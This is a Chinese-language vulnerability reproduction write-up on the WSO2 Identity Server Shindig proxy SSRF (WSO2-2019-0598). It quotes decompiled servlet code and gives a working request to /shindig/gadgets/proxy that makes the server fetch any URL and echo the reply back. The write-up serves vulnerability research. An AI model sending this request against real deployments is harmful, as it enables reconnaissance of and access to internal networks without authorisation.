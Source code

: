 # WSO2 proxy SSRF漏洞 WSO2-2019-0598

## 漏洞描述

滥用 shindig Web 应用程序的 UI 小工具加载功能可以利用此漏洞。攻击者可以更改请求中的特定 URL，从而导致服务器向更改后的 URL 发起 GET 请求。通过利用此漏洞，攻击者可以使用服务器执行任意外部服务交互。这可以特别用于与内部网络的节点进行交互，否则这些节点会被网络规则隐藏在外部。攻击者可以利用它来追踪和侦察网络，除此之外，如果有内部端点对 GET 请求进行状态更改操作，那么就有可能很好地破坏它们的完整性。根据端点实施的保护级别，此漏洞的影响可能会有所不同。

## 漏洞影响

<a-checkbox checked>WSO2 Identity Server  5.2.0 , 5.3.0 , 5.4.0 , 5.4.1 , 5.5.0 , 5.6.0 , 5.7.0</a-checkbox></br>

<a-checkbox checked>WSO2 IS as Key Manager  5.3.0 , 5.5.0 , 5.6.0 , 5.7.0</a-checkbox></br>

## 环境搭建

[https://github.com/wso2/product-is/releases/download/v5.6.0-rc3/wso2is-5.6.0-rc3.zip](https://github.com/wso2/product-is/releases/download/v5.6.0-rc3/wso2is-5.6.0-rc3.zip)

## 漏洞复现

根据官方描述，漏洞造成的原因主要是  shindig Web 应用程序的 UI 小工具的加载功能, [WSO2-2019-0598](https://docs.wso2.com/display/Security/Security+Advisory+WSO2-2019-0598)

![img](../../../.vuepress/public/img/1650949168107-52c50aa8-724d-44fe-b6b7-88c5ee421b1a.png)

下载源码启动环境，在IDEA中调试,

![img](../../../.vuepress/public/img/1650949296183-8fcf7648-396c-4cf0-97e6-2d8bd7703549.png)

![img](../../../.vuepress/public/img/1650949352127-e4a58aa5-02ab-47b6-a39f-4c4674078557.png)

根据官方描述，在全局搜索 shindig 相关代码

![img](../../../.vuepress/public/img/1650949484773-86c19b18-058f-4b04-b3af-f2c770e042fe.png)

打下断点，看一下访问 `/shindig/gadgets/js` 路径时代码的调用流程

![img](../../../.vuepress/public/img/1650949747820-46ca8de3-5455-4814-9d7d-1f43470e9842.png)

可以看到当访问此路径时，调用了对应的 Servlet 下的 doGet方法 来处理`(org.apache.shindig.gadgets.servlet.JsServlet.doGet(JsServlet.java:86)`

![img](../../../.vuepress/public/img/1650949997574-c1633833-c71b-4d0d-b6f7-b2408c614032.png)

我们可以在文件 `conf/shindig/web.xml 找到对应的调用方法`
![img](../../../.vuepress/public/img/1650952090941-f1e39caa-c6ee-4ad2-9ee9-51f1d52f88f0.png)

看到这我们注意到 `org.apache.shindig.gadgets.servlet.MakeRequestServlet` 似乎与  Jira未授权SSRF漏洞(CVE-2019-8451) 中存在的漏洞点十分的相似

![img](../../../.vuepress/public/img/1650952325298-e424a1e2-e3e0-4a14-8424-10cfb0d63365.png)

但断点调试过程中，却发现这个点是利用失败的

![img](../../../.vuepress/public/img/1650952414457-a9d6704f-ac22-48fb-ba74-d1c96e2c18b0.png)

![img](../../../.vuepress/public/img/1650952488384-050175c2-7724-4dc3-a07d-ab5b893a2867.png)

只好去看一下其他的Servele , 最后我们注意到 ProxyServlet

![img](../../../.vuepress/public/img/1650952714596-71a7d9a1-931d-4592-a594-a0a113410d1c.png)

发送请求包，打断点看一下处理流程

```java
GET /shindig/gadgets/proxy?container=default&url=https://www.baidu.com HTTP/1.1
Host: localhost:9443
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
```

通过 `org.apache.shindig.gadgets.servlet.ProxyServlet` 下的 doGet方法接收参数， 传入 `processRequest`

中 

```java
private void processRequest(HttpServletRequest request, HttpServletResponse servletResponse) throws IOException {
        if (request.getHeader("If-Modified-Since") != null) {
            servletResponse.setStatus(304);
        } else {
            Uri reqUri = (new UriBuilder(request)).toUri();

            HttpResponse response;
            try {
                ProxyUri proxyUri = this.proxyUriManager.process(reqUri);
                SecurityToken st = AuthInfoUtil.getSecurityTokenFromRequest(request);
                proxyUri.setSecurityToken(st);
                proxyUri.setUserAgent(request.getHeader("User-Agent"));
                if (proxyUri.getGadget() == null && st != null && !st.isAnonymous()) {
                    proxyUri.setGadget(st.getAppUrl());
                }

                AuthType authType = proxyUri.getAuthType();
                if (AuthType.OAUTH.equals(authType)) {
                    proxyUri.setOAuthArguments(new OAuthArguments(AuthType.OAUTH, request));
                } else if (AuthType.OAUTH2.equals(authType)) {
                    proxyUri.setOAuth2Arguments(new OAuth2Arguments(request));
                }

                String host = request.getHeader("Host");
                if (!this.lockedDomainService.isSafeForOpenProxy(host)) {
                    Uri resourceUri = proxyUri.getResource();
                    String msg = "Embed request for url " + (resourceUri != null ? resourceUri.toString() : "n/a") + " made to wrong domain " + host;
                    if (LOG.isLoggable(Level.INFO)) {
                        LOG.logp(Level.INFO, classname, "processRequest", "embededImgWrongDomain", new Object[]{resourceUri != null ? resourceUri.toString() : "n/a", host});
                    }

                    throw new GadgetException(Code.INVALID_PARAMETER, msg, 400);
                }

                if ("POST".equalsIgnoreCase(request.getMethod())) {
                    StringBuffer buffer = this.getPOSTContent(request);
                    response = this.proxyHandler.fetch(proxyUri, buffer.toString());
                } else {
                    response = this.proxyHandler.fetch(proxyUri);
                }
            } catch (GadgetException var11) {
                response = ServletUtil.errorResponse(new GadgetException(var11.getCode(), var11.getMessage(), 400));
            }

            ServletUtil.copyToServletResponseAndOverrideCacheHeaders(response, servletResponse);
        }
    }
```

向下跟进到` org.apache.shindig.gadgets.servlet.ProxyHandler `

![img](../../../.vuepress/public/img/1650956411691-435ce4a4-0fd4-4c36-ae68-f225e5eefb31.png)



`org.apache.shindig.gadgets.servlet.ProxyHandler.fatch`

![img](../../../.vuepress/public/img/1650957359634-2d8e534a-14d0-409c-8b7d-61fdbdc5695b.png)



接着向下看到 org.apache.shindig.gadgets.servlet.ProxyHandler 下的 `buildHttpRequest` 方法创建Http请求， 而目标就是我们刚刚传入的Url参数

```java
 private HttpRequest buildHttpRequest(ProxyUri uriCtx, Uri tgt, @Nullable String postBody) throws GadgetException, IOException {
        ServletUtil.validateUrl(tgt);
        HttpRequest req = uriCtx.makeHttpRequest(tgt);
        req.setRewriteMimeType(uriCtx.getRewriteMimeType());
        if (postBody != null) {
            req.setMethod("POST");
            req.setPostBody(new ByteArrayInputStream(postBody.getBytes()));
        }

        if (req.getHeader("User-Agent") == null) {
            String userAgent = uriCtx.getUserAgent();
            if (userAgent != null) {
                req.setHeader("User-Agent", userAgent);
            }
        }

        return req;
    }
```

![img](../../../.vuepress/public/img/1650956748587-08627c03-ca22-489e-b174-eb1c476f9072.png)

![img](../../../.vuepress/public/img/1650956819778-3300aef4-dc84-425e-bcdf-6f5dd04bfa3e.png)

最后回显至页面中, 造成存在回显的SSRF

![img](../../../.vuepress/public/img/1650957201523-47aa0d2c-7cc7-4c10-b14c-fd48049681d3.png)![img](../../../.vuepress/public/img/1650957230578-815a5156-d3b5-419b-a2e7-c2ac97a2c562.png)